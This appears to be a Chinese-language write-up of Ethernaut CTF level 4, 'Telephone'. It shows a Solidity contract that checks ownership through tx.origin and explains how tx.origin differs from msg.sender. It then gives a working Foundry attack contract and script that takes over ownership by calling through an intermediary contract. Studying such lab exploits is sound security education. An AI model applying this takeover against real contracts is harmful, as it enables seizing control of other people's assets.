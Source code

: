 # Ethernaut CTF Writeup

## Level 4 Telephone

> 題目: https://ethernaut.openzeppelin.com/level/0x865e167C3db2c3E1C046cC67b05E6EcF9C897C2D

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

過關條件: 

- 獲得合約的所有權

解法：

 - `tx.origin` 及 `msg.sender` 的差異
    - `tx.origin`: 發起交易的地址，通常為使用者的錢包地址
    - `msg.sender`: function 的呼叫者，可以為使用者錢包，或是另一個合約
- 作法：寫一個合約代替直接發送，便可造成 `tx.origin` 及 `msg.sender` 出現不一致

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Telephone} from "../src/level4/Telephone.sol";


contract AttackTelephone {
    Telephone public telephone;
    
    constructor(address _targetAddress) {
        telephone = Telephone(payable(_targetAddress));
        
        console.log(telephone.owner());
        telephone.changeOwner(msg.sender);
        
        console.log(telephone.owner());
    }
}

contract Attack is Script {
    
    function run() public {
        vm.startBroadcast();

        AttackTelephone attack = new AttackTelephone(0x5f0BBf33020Cd1fD15d332e8B799ec5B470d2414);
        
        vm.stopBroadcast();
    }
}

```

Takeaways:

- 如果沒有搞清楚 tx.origin 和 msg.sender 的差異，可能會導致釣魚攻擊
- https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/